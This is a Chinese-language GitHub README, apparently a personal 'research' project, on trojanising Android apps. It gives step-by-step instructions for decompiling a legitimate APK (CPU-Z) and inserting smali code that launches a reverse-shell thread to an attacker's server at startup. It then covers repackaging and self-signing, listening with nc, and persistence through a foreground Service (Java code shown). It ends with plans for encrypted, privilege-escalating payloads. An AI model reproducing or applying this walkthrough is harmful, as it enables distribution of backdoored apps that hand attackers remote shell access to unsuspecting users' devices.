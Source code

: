 # ApkInjectionResearch
**一个实现向安卓程序中注入恶意代码的研究。**

  研究的起因是看见[520_APK_HOOK](https://github.com/ba0gu0/520apkhook/)这个项目，感觉很有意思，于是想研究一下安卓程序的执行流程，不同框架的区别，以及在不同版本环境下的代码注入应该怎么做。

---

### 目前已经实现的功能
1. 在 MainActivity.smali 的 onCreate 方法中注入代码，随着应用启动而自启动。
2. 在 ShellRunnable 中编写使用 socket 连接反弹 Shell 的逻辑。
3. 反弹 shell 仅在 app 进程存活期间有效，app 被杀死或卸载后连接会断开。
4. 可以执行大部分命令，有一些命令好像有bug？？？

---

### 对研究内容的理解
#### 1. 操作流程
1. **反编译 APK**  
   - 使用 apktool 将原始 APK (CPU-Z) 反编译，得到 smali 代码。

2. **插入自定义 smali 代码**  
   - 在 MainActivity 同级目录下新增了 ShellRunnable.smali，实现了一个 `Runnable`，用于反弹 shell。
   - 在 `MainActivity.smali` 的 `onCreate` 方法中插入如下代码：
     
     ```smali
     new-instance v0, Lcom/cpuid/cpu_z/ShellRunnable;
     invoke-direct {v0}, Lcom/cpuid/cpu_z/ShellRunnable;-><init>()V
     new-instance v1, Ljava/lang/Thread;
     invoke-direct {v1, v0}, Ljava/lang/Thread;-><init>(Ljava/lang/Runnable;)V
     invoke-virtual {v1}, Ljava/lang/Thread;->start()V
     ```

3. **重新打包并签名 APK**  
   - 用 apktool 重新打包修改后的 APK，并用自签名证书工具 [dx-signer](https://github.com/dingxiangtech/dx-signer) 签名。

3. **监听端口反弹shell**
   - 我使用的是花生壳的内网穿透（体验版就够用了）， windows 端配置好 nc 打开监听，安装好花生壳连接上。
   ![image](https://github.com/user-attachments/assets/6e2c5307-4013-4ff9-a713-66d30f918087)
   - 打开应用就能连接上 shell 了。
   ![image](https://github.com/user-attachments/assets/ab0b72d1-2fe1-46c9-835f-c6ca923572d8)

---

#### 2. 程序运行流程
1. **应用启动**  
   用户启动应用，`MainActivity` 的 `onCreate` 方法被调用。

2. **启动反弹 shell 线程**  
   - `onCreate` 方法中新建并启动了一个 `ShellRunnable` 线程。

3. **ShellRunnable 线程执行反弹 shell**  
   - 线程尝试连接你的服务器（如 `yourip:port`）
   - 连接成功后，启动本地 `sh` 进程（Android shell）
   - 建立 socket 与 shell 的输入输出流转发。
   - 服务器端输入通过 socket 传给 shell，shell 的输出通过 socket 传回服务器。

4. **远程控制**  
   - 在服务器端通过 shell 执行命令，下载文件、查看目录等，权限等同于该 app 的权限（非 root）。

---

#### 3. 权限与限制
- 由于 Android 不允许普通 app 注册系统级自启动（如 Linux 的 rc.local、init.d）。反弹 shell 的权限也仅限于该 app 的沙箱权限，不能越权访问系统或其他 app 的数据。
  
- 所以就算用动态加载方法保存到 `/storage/emulated/0` 的文件，其他 app 可能能看到，但也无法直接“激活”你的 app 或让你的 shell 常驻，因为只有 root 权限或系统漏洞才能实现真正的权限维持。
  
- 后面也看过一些方法来做权限维持，比如说连接到 shell 之后及时使用 msf 上传并执行 .sh 脚本[https://cloud.tencent.com/developer/article/1043684](https://cloud.tencent.com/developer/article/1043684)
  
- 又或者新建一个继承自 `android.app.Service` 的 smali 类（如 ShellService.smali）。在 onStartCommand 里启动 ShellRunnable 线程。
  
- 在 AndroidManifest.xml 注册 Service，并加 `<uses-permission android:name="android.permission.FOREGROUND_SERVICE"/>`（Android 9+）。启动 Service 时用 startForeground，这样系统不会轻易回收。
  
- 原理就是将 ShellRunnable 放到 Service 中运行，而不是 Activity ，将 Service 设置为前台服务（Foreground Service），这样即使应用切后台，线程也不会被系统轻易杀死。

```Java
public class ShellService extends Service {
    public int onStartCommand(Intent i, int f, int s) {
        new Thread(new ShellRunnable()).start();
        // 前台服务（Android 8+必须）
        startForeground(1, new Notification());
        return START_STICKY;
    }
    public IBinder onBind(Intent i) { return null; }
}
```

- 如果 Service 被杀死，可以用 JobService 或 AlarmManager 定时重启 Service，提升存活率。
  
- 最后的方法就是把设备 root 了，就可以用 native 守护进程方式。

---

#### 3. 代码优化
因为一开始注入的时候经常出现闪退或者连接断开的问题，所以使用了 sleep 来减慢数据处理的速度（虽然好像没啥影响，纯折腾qaq）
所以可以把下面这些代码优化掉，当然要是不想删可以把 `const-wide/16 v9, 1` 的延迟改低，或者设置缓冲区来读取多个字节。

```smali
    :sleep
    invoke-virtual {v8}, Ljava/io/OutputStream;->flush()V
    invoke-virtual {v6}, Ljava/io/OutputStream;->flush()V
    const-wide/16 v9, 1
    invoke-static {v9, v10}, Ljava/lang/Thread;->sleep(J)V
    goto :loop
    :try_end_0
    .catch Ljava/lang/Exception; {:try_start_0 .. :try_end_0} :catch_0
```

---

#### 3. 错误日志分析
当完成上面的操作但是打开会报错的时候可以用 adb 连接真机或者虚拟机来提取错误日志 `adb logcat -v time *:E >C:\log.log`

例如我在对另一个 apk 注入代码的时候会闪退，我们把错误日志提取出来，直接找到 `beginning of crash` 开始分析

其实这里很明显意思就是 MainActivity 的 onCreate 方法中寄存器类型发生错乱

因为原本声明的 .locals 11 数量要大于用到的最大寄存器编号（如 v11 就要 .locals 12）

并且 onCreate 方法后续代码里，v0还被当作 MainActivity 的 this 对象或 int 用。

```log
--------- beginning of crash
06-05 15:20:00.156 E/AndroidRuntime( 4017): FATAL EXCEPTION: main
06-05 15:20:00.156 E/AndroidRuntime( 4017): Process: dev.anilbeesetti.nextplayer, PID: 4017
06-05 15:20:00.156 E/AndroidRuntime( 4017): java.lang.VerifyError: Verifier rejected class dev.anilbeesetti.nextplayer.MainActivity: void dev.anilbeesetti.nextplayer.MainActivity.onCreate(android.os.Bundle) failed to verify: void dev.anilbeesetti.nextplayer.MainActivity.onCreate(android.os.Bundle): [0xE] 'this' argument 'Precise Reference: dev.anilbeesetti.nextplayer.ShellRunnable' not instance of 'Precise Reference: dev.anilbeesetti.nextplayer.MainActivity' (declaration of 'dev.anilbeesetti.nextplayer.MainActivity' appears in /data/app/~~Fm2FWSDlprIBhBCsWywQoQ==/dev.anilbeesetti.nextplayer-sf2NpCwE-CCvByUGT0kA5w==/base.apk)
06-05 15:20:00.156 E/AndroidRuntime( 4017): 	at java.lang.Class.newInstance(Native Method)
06-05 15:20:00.156 E/AndroidRuntime( 4017): 	at android.app.AppComponentFactory.instantiateActivity(AppComponentFactory.java:95)
06-05 15:20:00.156 E/AndroidRuntime( 4017): 	at android.app.Instrumentation.newActivity(Instrumentation.java:1291)
06-05 15:20:00.156 E/AndroidRuntime( 4017): 	at android.app.ActivityThread.performLaunchActivity(ActivityThread.java:3648)
06-05 15:20:00.156 E/AndroidRuntime( 4017): 	at android.app.ActivityThread.handleLaunchActivity(ActivityThread.java:3931)
06-05 15:20:00.156 E/AndroidRuntime( 4017): 	at android.app.servertransaction.LaunchActivityItem.execute(LaunchActivityItem.java:103)
06-05 15:20:00.156 E/AndroidRuntime( 4017): 	at android.app.servertransaction.TransactionExecutor.executeCallbacks(TransactionExecutor.java:135)
06-05 15:20:00.156 E/AndroidRuntime( 4017): 	at android.app.servertransaction.TransactionExecutor.execute(TransactionExecutor.java:95)
06-05 15:20:00.156 E/AndroidRuntime( 4017): 	at android.app.ActivityThread$H.handleMessage(ActivityThread.java:2294)
06-05 15:20:00.156 E/AndroidRuntime( 4017): 	at android.os.Handler.dispatchMessage(Handler.java:106)
06-05 15:20:00.156 E/AndroidRuntime( 4017): 	at android.os.Looper.loopOnce(Looper.java:201)
06-05 15:20:00.156 E/AndroidRuntime( 4017): 	at android.os.Looper.loop(Looper.java:288)
06-05 15:20:00.156 E/AndroidRuntime( 4017): 	at android.app.ActivityThread.main(ActivityThread.java:8060)
06-05 15:20:00.156 E/AndroidRuntime( 4017): 	at java.lang.reflect.Method.invoke(Native Method)
06-05 15:20:00.156 E/AndroidRuntime( 4017): 	at com.android.internal.os.RuntimeInit$MethodAndArgsCaller.run(RuntimeInit.java:571)
06-05 15:20:00.156 E/AndroidRuntime( 4017): 	at com.android.internal.os.ZygoteInit.main(ZygoteInit.java:1091)
```
总结一下就是：
1. .locals 数量要大于你用到的最大寄存器编号
2. 不要把 v0、v1 等 this/int 类型寄存器用来存对象

至此，传统 Android 框架的 apk 应该都可以通过手动修改来注入代码了，接下来有空再玩玩 Flutter 。

---

### 未来的研究方向
现在也只实现了这一个传统的 onCreate() 注入方式，但是在 Flutter 应用中， UI 由 Flutter 引擎渲染，MainActivity 只是一个原生容器。

此时传统的 onCreate() 主要初始化 Flutter 环境，而不是应用主逻辑的入口点。所以还要不断尝试是在 <init> 构造器中注入还是在 F()、 onCreate() 方法中更合适。

**除了实现代码注入，还可以玩一些骚操作，类似于 MSF 里面的 `android/meterpreter/reverse_tcp` 模块，可以实现加密传输、反射调用、动态加载、持久化、甚至可以集成一些权限提升的功能。**
